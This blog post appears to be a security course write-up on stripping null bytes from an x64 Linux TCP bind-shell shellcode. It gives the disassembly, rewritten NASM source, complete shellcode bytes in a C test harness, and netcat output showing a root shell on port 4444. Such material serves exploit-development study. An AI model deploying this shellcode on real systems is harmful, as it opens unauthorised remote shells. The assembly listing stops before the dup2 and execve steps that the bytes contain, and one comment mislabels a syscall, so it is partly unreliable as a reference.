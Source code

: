 ```yaml
---
title: SLAE64 Assignment 1 - Remove Nulls TCP Bindshell
date: 2020-4-28
layout: single
classes: wide
header:
  teaser: /assets/images/SLAE64.png
tags:
  - Bind
  - Shell
  - Assembly
  - Code
  - SLAE
  - Linux
  - x64
  - Shellcode
--- 
```

![](/assets/images/SLAE64.png)

## Overview
The second part of the first assignment of SLAE64 was to remove the nulls from the bindshell provided by Pentester Academy.

## Compiling & Testing Original - With GCC in C Host Program
```bash
root@zed# ./shellcode
Shellcode Length:  2
```
+ We can see here that these nulls truncate our shellcode when executed in a host program.
+ This is because `\x00` will terminate a string in the host program.
+ Most of the time shellcode is injected into the host program by overflowing the string of a buffer, therefor truncating the shellcode.

## Compiling & Testing Original - With NASM & LD
The shellcode works great if it is compiled and ran as its own program. This means the shellcode logic is good. 

#### Terminal 1
```bash
root# nasm -f elf64 bindshell.asm -o bindshell.o
root# rm shellcode
root# ld bindshell.o -o bindshell
root# ./bindshell

```

#### Terminal 2

```bash
root# nc 127.0.0.1 4444
id
uid=0(root) gid=0(root) groups=0(root),46(plugdev)
```

## Removing Nulls
To make this shellcode injectable into most host programs, we will need to remove the `0x00` aka `Nulls`.

To determine which assembly instructions are producing the nulls, we will use `objdump` on the object file.

```bash
root# objdump -D bindshell.o -M intel
   0:   b8 29 00 00 00          mov    eax,0x29
   5:   bf 02 00 00 00          mov    edi,0x2
   a:   be 01 00 00 00          mov    esi,0x1
   f:   ba 00 00 00 00          mov    edx,0x0
  14:   0f 05                   syscall
  16:   48 89 c7                mov    rdi,rax
  19:   48 31 c0                xor    rax,rax
  1c:   50                      push   rax
  1d:   89 44 24 fc             mov    DWORD PTR [rsp-0x4],eax
  21:   66 c7 44 24 fa 11 5c    mov    WORD PTR [rsp-0x6],0x5c11
  28:   66 c7 44 24 f8 02 00    mov    WORD PTR [rsp-0x8],0x2
  2f:   48 83 ec 08             sub    rsp,0x8
  33:   b8 31 00 00 00          mov    eax,0x31
  38:   48 89 e6                mov    rsi,rsp
  3b:   ba 10 00 00 00          mov    edx,0x10
  40:   0f 05                   syscall
  42:   b8 32 00 00 00          mov    eax,0x32
  47:   be 02 00 00 00          mov    esi,0x2
  4c:   0f 05                   syscall
  4e:   b8 2b 00 00 00          mov    eax,0x2b
  53:   48 83 ec 10             sub    rsp,0x10
  57:   48 89 e6                mov    rsi,rsp
  5a:   c6 44 24 ff 10          mov    BYTE PTR [rsp-0x1],0x10
  5f:   48 83 ec 01             sub    rsp,0x1
  63:   48 89 e2                mov    rdx,rsp
  66:   0f 05                   syscall
  68:   49 89 c1                mov    r9,rax
  6b:   b8 03 00 00 00          mov    eax,0x3
  70:   0f 05                   syscall
  72:   4c 89 cf                mov    rdi,r9
  75:   b8 21 00 00 00          mov    eax,0x21
  7a:   be 00 00 00 00          mov    esi,0x0
  7f:   0f 05                   syscall
  81:   b8 21 00 00 00          mov    eax,0x21
  86:   be 01 00 00 00          mov    esi,0x1
  8b:   0f 05                   syscall
  8d:   b8 21 00 00 00          mov    eax,0x21
  92:   be 02 00 00 00          mov    esi,0x2
  97:   0f 05                   syscall
  99:   48 31 c0                xor    rax,rax
  9c:   50                      push   rax
  9d:   48 bb 2f 62 69 6e 2f    movabs rbx,0x68732f2f6e69622f
  a4:   2f 73 68
  a7:   53                      push   rbx
  a8:   48 89 e7                mov    rdi,rsp
  ab:   50                      push   rax
  ac:   48 89 e2                mov    rdx,rsp
  af:   57                      push   rdi
  b0:   48 89 e6                mov    rsi,rsp
  b3:   48 83 c0 3b             add    rax,0x3b
  b7:   0f 05                   syscall
```

+ After investigating the shellcode, we can see that the Nulls exist due to the mov instructions used.

## Modified Null-Free Shellcode
To remove the 0x00's from the shellcode, we will need to substitute the mov instructions.

```nasm
global _start
_start:
; sock = socket(AF_INET, SOCK_STREAM, 0)
xor rdi, rdi ; rdi=0x0
mul rdi      ; rax&rdx=0x0
add rax, 41  ; socket syscall number 41
add rdi, 2   ; AF_INET=0x2
push rdx
pop rsi
inc rsi      ; rsi=0x1=SOCK_STREAM
syscall
mov rdi, rax ; rdi=socket-fd
; server.sin_family = AF_INET
; server.sinport = htons(PORT)
; server.sinaddr.saddr = INADDRANY
; bzero(&server.sinzero, 8)
dec rsi
mul rsi
add al, 0x31     ; rax = 0x31 = socket syscall
push rdx         ; 8 bytes of zeros for second half of struct
push dx          ; 4 bytes of zeros for IPADDRANY
push dx          ; 4 bytes of zeros for IPADDRANY
push word 0x5c11 ; push 2 bytes for TCP Port 4444
inc rdx
inc rdx          ; rdx = 0x2 ; dx = 0x0002
push dx          ; 0x2 = AFINET
add dl, 0xe      ; rdi = 0x10 = sizeof(ipSocketAddr)
mov rsi, rsp     ; rsi = &ipSocketAddr
syscall
; listen(sock, MAXCLIENTS)
mul rsi      ; rax&rdx=0x0
add rax, 50
inc rsi
inc rsi
syscall
; new = accept(sock, (struct sockaddr client, &sockaddrlen)
mul rdx
add rax, 43
sub rsp, 16
mov rsi, rsp
mov byte [rsp-1], 16
sub rsp, 1
mov rdx, rsp
syscall
; store the client socket description
mov r9, rax
; close parent
xor rax, rax
add rax, 3
syscall
```



## Assemble the new shellcode

```bash
root# nasm -f elf64 mod-bindshell.asm -o mod-bindshell.o
root# ld mod-bindshell.o -o mod-bindshell
root# ./mod-bindshell
root# for i in $(objdump -D mod-bindshell.o | grep "^ " | cut -f2); do echo -n '\x'$i; done
```

## Add the Modified Shellcode to the C Host Program

```c
#include<stdio.h>
#include<string.h>
unsigned char shellcode[] = \
"\x48\x31\xff\x48\xf7\xe7\x48\x83\xc0\x29\x48\x83"
"\xc7\x02\x52\x5e\x48\xff\xc6\x0f\x05\x48\x89\xc7"
"\x48\xff\xce\x48\xf7\xe6\x04\x31\x52\x66\x52\x66"
"\x52\x66\x68\x11\x5c\x48\xff\xc2\x48\xff\xc2\x66"
"\x52\x80\xc2\x0e\x48\x89\xe6\x0f\x05\x48\xf7\xe6"
"\x48\x83\xc0\x32\x48\xff\xc6\x48\xff\xc6\x0f\x05"
"\x48\xf7\xe2\x48\x83\xc0\x2b\x48\x83\xec\x10\x48"
"\x89\xe6\xc6\x44\x24\xff\x10\x48\x83\xec\x01\x48"
"\x89\xe2\x0f\x05\x49\x89\xc1\x48\x31\xc0\x48\x83"
"\xc0\x03\x0f\x05\x48\x31\xf6\x48\xf7\xe6\x4c\x89"
"\xcf\x48\x83\xc0\x21\x50\x0f\x05\x58\x50\x48\xff"
"\xc6\x0f\x05\x58\x50\x48\xff\xc6\x0f\x05\x48\x31"
"\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68"
"\x53\x48\x89\xe7\x50\x48\x89\xe2\x57\x48\x89\xe6"
"\x48\x83\xc0\x3b\x0f\x05";
int main()
{
 printf("Shellcode Length:  %d\n", strlen(shellcode));
 int (*ret)() = (int(*)())shellcode;
 ret();
}
```


#### Terminal 1
```bash
root# gcc -m64 -z execstack -fno-stack-protector shellcode.c -o shellcode
root# ./shellcode
Shellcode Length:  174

```

#### Terminal 2

```bash
root# nc 127.0.0.1 4444
id
uid=0(root) gid=0(root) groups=0(root)
```

+ Awesome! Our modified bindshell works from the host program and contains no nulls!!



